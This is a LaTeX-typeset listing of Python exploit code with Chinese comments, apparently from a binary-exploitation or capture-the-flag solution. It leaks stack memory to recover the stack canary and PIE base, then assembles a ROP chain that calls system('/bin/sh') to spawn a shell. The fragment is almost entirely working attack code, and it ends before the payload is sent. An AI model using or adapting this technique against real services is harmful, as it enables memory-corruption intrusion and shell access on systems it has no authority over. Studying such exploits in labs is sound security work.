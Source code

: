 \documentclass[10pt,a4paper]{article}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BaseNTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\ControlFlowTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\DecValTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\renewenvironment{Shaded}{%
  \def\FrameCommand{\fboxsep=3.2pt\colorbox{shadecolor}}%
  \MakeFramed{\advance\hsize-\width\FrameRestore\small}%
}{%
  \endMakeFramed
}
\begin{document}
\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{\# 3) SEND STATE：洩漏 0x1ff bytes 堆疊}
\NormalTok{io.send(frame(}\BuiltInTok{bytes}\NormalTok{([OP\_LEAK])))}
\NormalTok{st, leak }\OperatorTok{=}\NormalTok{ recv\_frame(io)}
\NormalTok{canary    }\OperatorTok{=}\NormalTok{ u64(leak[}\BaseNTok{0x108}\NormalTok{:}\BaseNTok{0x110}\NormalTok{])     }\CommentTok{\# 金絲雀}
\NormalTok{saved\_rbp }\OperatorTok{=}\NormalTok{ u64(leak[}\BaseNTok{0x110}\NormalTok{:}\BaseNTok{0x118}\NormalTok{])     }\CommentTok{\# saved rbp（用來判斷對齊）}
\NormalTok{ret\_main  }\OperatorTok{=}\NormalTok{ u64(leak[}\BaseNTok{0x118}\NormalTok{:}\BaseNTok{0x120}\NormalTok{])     }\CommentTok{\# PIE + 0x1a9f}
\NormalTok{pie       }\OperatorTok{=}\NormalTok{ ret\_main }\OperatorTok{{-}} \BaseNTok{0x1a9f}
\ControlFlowTok{assert}\NormalTok{ pie }\OperatorTok{\&} \BaseNTok{0xfff} \OperatorTok{==} \DecValTok{0}                \CommentTok{\# 健全性檢查：一定 page 對齊}
\ControlFlowTok{assert}\NormalTok{ canary }\OperatorTok{\&} \BaseNTok{0xff} \OperatorTok{==} \DecValTok{0}              \CommentTok{\# 健全性檢查：金絲雀低位必為 0}

\CommentTok{\# 4) 組 ROP chain}
\NormalTok{pop\_rdi }\OperatorTok{=}\NormalTok{ pie }\OperatorTok{+} \BaseNTok{0x12aa}
\NormalTok{system  }\OperatorTok{=}\NormalTok{ pie }\OperatorTok{+} \BaseNTok{0x10c0}
\NormalTok{binsh   }\OperatorTok{=}\NormalTok{ pie }\OperatorTok{+} \BaseNTok{0x4864} \OperatorTok{+} \BaseNTok{0x1f0}         \CommentTok{\# 我們的 "/bin/sh"（在 .bss）}
\NormalTok{ret     }\OperatorTok{=}\NormalTok{ pie }\OperatorTok{+} \BaseNTok{0x101a}
\NormalTok{chain   }\OperatorTok{=}\NormalTok{ [pop\_rdi, binsh, system, }\DecValTok{0}\NormalTok{]}
\ControlFlowTok{if}\NormalTok{ (saved\_rbp }\OperatorTok{+} \BaseNTok{0x10}\NormalTok{) }\OperatorTok{\%} \DecValTok{16} \OperatorTok{==} \DecValTok{0}\NormalTok{:       }\CommentTok{\# system 入口需要 rsp\%16 == 8}
\NormalTok{    chain }\OperatorTok{=}\NormalTok{ [ret] }\OperatorTok{+}\NormalTok{ chain}


\end{Highlighting}
\end{Shaded}
\end{document}
